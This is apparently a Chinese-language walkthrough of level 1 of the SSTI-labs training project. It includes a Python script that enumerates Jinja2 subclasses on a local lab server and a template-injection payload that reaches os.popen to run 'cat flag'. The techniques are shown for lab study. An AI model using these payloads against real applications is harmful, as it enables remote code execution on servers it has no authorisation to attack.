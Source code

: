 # [实战刷题](#toc__11)

## [SSTI-labs](#toc_ssti-labs)

GitHub 链接  
[https://github.com/X3NNY/sstilabs](https://github.com/X3NNY/sstilabs)

### [level 1](#toc_level-1)

这关显示未设置过滤  
此时就可以尝试利用的 payload 进行 RCE  
常见的思路就是找类，找类的基类，找基类的子类，然后找可以 RCE 的模块  
我们这里的话，还是用`os._wrap_close`这个类，  
把之前的脚本改一下就可以寻找这个类了

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    url = "http://192.168.134.132:5000/level/1"
    data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+']}}'}
    res = requests.post(url=url,data=data, headers=headers)
    #print(res.text)
    if 'os._wrap_close' in res.text:
        print(i)
```

[![在这里插入图片描述](assets/1698900310-e77873bd3b1a6087bc9c5af7928ba843.png)](https://storage.tttang.com/media/attachment/2022/08/14/2a523036-25f4-4d4d-8145-397147885da5.png)  
因此我们这里构造 payload 如下

```plain
{{"".__class__.__bases__[0]. __subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

[![在这里插入图片描述](assets/1698900310-aa741ff5d1ba25b27fad32a0b6283c4c.png)](https://storage.tttang.com/media/attachment/2022/08/14/a8e2d4e1-0947-4cef-b6ba-66d744900879.png)
